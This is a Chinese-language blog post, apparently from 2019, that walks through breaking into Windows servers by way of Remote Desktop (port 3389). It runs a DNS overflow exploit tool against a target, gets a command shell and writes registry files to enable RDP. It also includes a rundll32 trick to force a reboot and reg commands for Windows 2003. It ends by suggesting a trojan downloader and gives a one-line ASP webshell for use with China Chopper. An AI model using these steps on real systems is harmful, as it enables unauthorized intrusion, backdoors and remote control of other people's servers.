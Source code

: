 ```yaml
---
title: Windows下的3389端口渗透
date: 2019-08-11 18:25:12
categories: 旧时光
tags: 网络安全
---
```

1、Win7、Win2003、XP系统

在CMD命令行开启3389端口：
REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f

在CMD命令行关闭3389端口（将00000000改成11111111即可）：

REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 11111111 /f

2、2000系统

简要说一下如何进行DNS溢出攻击。我用的溢出利用程序是dns.exe，在CMD下运行它可以看到它的使用参数等信息。执行"dns -s IP"命令检测目标IP是否存在DNS溢出漏洞，若存在则进行溢出攻击，执行"dns -t 2000all IP 1207"后提示要我们检测返回的1100端口的shell。"telnet IP 1100"成功得到返回的cmdshell。注意目录为c:/WINNT/system32，接着我们需要做的是使用"echo"命令写入一个3389.reg注册表文件。将如下代码一行一行地复制到cmdshell窗口后按回 车执行：

echo Windows Registry Editor Version 5.00 >3389.reg
echo. >>3389.reg 
echo [HKEY_LOCAL_MACHINE/SOFTWARE/Microsoft/Windows/CurrentVersion/netcache] >>3389.reg
echo "Enabled"="0" >>3389.reg
echo [HKEY_LOCAL_MACHINE/SOFTWARE/Microsoft/Windows NT/CurrentVersion/Winlogon] >>3389.reg
echo "ShutdownWithoutLogon"="0" >>3389.reg
echo [HKEY_LOCAL_MACHINE/SOFTWARE/Policies/Microsoft/Windows/Installer] >>3389.reg
echo "EnableAdminTSRemote"=dword:00000001 >>3389.reg 
echo [HKEY_LOCAL_MACHINE/SYSTEM/CurrentControlSet/Control/Terminal Server] >>3389.reg
echo "TSEnabled"=dword:00000001 >>3389.reg
echo [HKEY_LOCAL_MACHINE/SYSTEM/CurrentControlSet/Services/TermDD] >>3389.reg
echo "Start"=dword:00000002 >>3389.reg 
echo [HKEY_LOCAL_MACHINE/SYSTEM/CurrentControlSet/Services/TermService] >>3389.reg
echo "Start"=dword:00000002 >>3389.reg
echo [HKEY_USERS/.DEFAULT/Keyboard Layout/Toggle] >>3389.reg 
echo "Hotkey"="1" >>3389.reg
echo [HKEY_LOCAL_MACHINE/SYSTEM/CurrentControlSet/Control/Terminal Server/Wds/rdpwd/Tds/tcp] >>3389.reg 
echo "PortNumber"=dword:00000D3D >>3389.reg
echo [HKEY_LOCAL_MACHINE/SYSTEM/CurrentControlSet/Control/Terminal Server/WinStations/RDP-Tcp] >>3389.reg
echo "PortNumber"=dword:00000D3D >>3389.reg

简单说明一下，">"符号是覆盖写入文件，如无此文件则创建，有则覆盖原来的内容写入。">>"是追加写入，即在原有文件内容的基础上在 后面写入内容。这里是写入内容到3389.reg文件中！需要注意的是第二行，那个作用是写入一行空格，因为.reg文件的格式 必须如此！成功写入完毕后接着执行导入操作，执行"regedit /s 3389.reg"。这样注册表文件就已经顺利导入到注册表里去了。不过需要注意的是在cmdshell下不要输错任何一个字符，否则将无法执行，建议先 自己打好在记事本上，确保无误之后再复制到cmdshell窗口执行。然后可以用下面这个方法重启目标主机。在cmdshell下执行如下代码：

@ECHO OFF & cd/d %temp% & echo [version] > {out}.inf 
(set inf=InstallHinfSection DefaultInstall) 
echo signature=$chicago$ >> {out}.inf 
echo [defaultinstall] >> {out}.inf
rundll32 setupapi,%inf% 1 %temp%/{out}.inf r

按顺序将以上五行代码一行一行地复制到cmdshell上，复制完一行按一次回车执行，五行都执行完毕后，服务器就会重启的了。当然让服务器重启的方法比较多，比如结束掉系统关键进程、代码模拟按键等都是可以的，如无意外，等待服 务器完成重启之后再连接目标发现远程桌面服务已经成功开启了。至此Windows 2000操作系统溢出后返回的cmdshell下开启远程桌面服务就成功完成了。

3、2003系统

相对于2000的系 统来说，2003cmdshell下开启远程桌面服务就比较容易一些了，起码无需重启嘛！第一种方法也是用"echo"命令写入一个 3389.reg文件，再"regedit /s 3389.reg"导入注册表文件即可开启，比较简单，与上面介绍的2000的开启方法类似。将如下代码一行一行地复制到cmdshell窗口后按回车执 行：

echo Windows Registry Editor Version 5.00 >3389.reg 
echo. >>3389.reg 
echo [HKEY_LOCAL_MACHINE/SYSTEM/CurrentControlSet/Control/Terminal Server] >>3389.reg 
echo "fDenyTSConnections"=dword:00000000 >>3389.reg 
echo [HKEY_LOCAL_MACHINE/SYSTEM/CurrentControlSet/Control/Terminal Server/Wds/rdpwd/Tds/tcp] >>3389.reg 
echo "PortNumber"=dword:00000d3d >>3389.reg 
echo [HKEY_LOCAL_MACHINE/SYSTEM/CurrentControlSet/Control/Terminal Server/WinStations/RDP-Tcp] >>3389.reg 
echo "PortNumber"=dword:00000d3d >>3389.reg

完成以上操作后再执行"regedit /s 3389.reg"导入即可生效！不过这个方法相对来说比较麻烦。我们还可以用另外一种比较简单的方法来开启远程桌面服务的。在介绍另一个操作方法之前，我们先来熟悉下2003系统下远程桌面服务的一个最关键的注册表键值。
在"HKEY_LOCAL_MACHINE/SYSTEM/CurrentControlSet/Control/Terminal Server"

下数值名称为"fDenyTSConnections"的这一项，可以看到它的数值数据为1或0。数值为1的时候关闭远程桌面服务，数值为0的时候开启远程 桌面服务。换句话说，我们只要可以在cmdshell下更改这个关键的注册表键值数据就可以达到实现开启远程桌面服务的目的了！有幸的是，在2003下有 一个"reg"命令完全可以做到这一点。这里我们找一台操作系统为2003的服务器，通过和上面介绍的同样方法溢出后返回一个cmdshell。当我们尝试连接的时候会发现根本无法连接上去。下面详细说明一下用"reg"命令开启远程桌面服务。执行：

reg query "HKEY_LOCAL_MACHINE/SYSTEM/CurrentControlSet/Control/Terminal Server"

我们发现"fDenyTSConnections"键值数据为"0x1"。这个是十六进制数的1。上面提到，数据为1则没有开启远程桌面服务。我们要做的就是把"0x1"改成"0x0"！直接用"reg add"是不行的，必须把原来键值删掉再添加！在cmdshell下执行：

reg delete "HKEY_LOCAL_MACHINE/SYSTEM/CurrentControlSet/Control/Terminal Server" /v fDenyTSConnections

会询问是否"要删除注册表值 fDenyTSConnections 吗"，当然Yes了。再执行：

reg add "HKEY_LOCAL_MACHINE/SYSTEM/CurrentControlSet/Control/Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0

提示操作成功完成。这样就把"fDenyTSConnections"的值改为"0x0"了，我们可以执行：

reg query "HKEY_LOCAL_MACHINE/SYSTEM/CurrentControlSet/Control/Terminal Server"

发现已经成功更改了数据。现在再来连接服务器的3389看看，发现已经可以成功连接上了，创建个用户玩玩。至此2003下cmdshell开启远程桌面服务的方法也介绍完了。


溢出后也不一定要非要在cmdshell下开启远程桌面服务。
可以echo一个vbs文件，下载远程控制木马，然后在cmdshell里运行一下木马即可连接。
还有就是查询目标IP是否绑定有网站，如果有则找到网站目录，再用echo个一句话木马进去（例如：echo "<%execute request("cmd")%>"   > WEB路径/test.asp），用菜刀连接，然后上传大马，上传开3389的工具再开启也行。
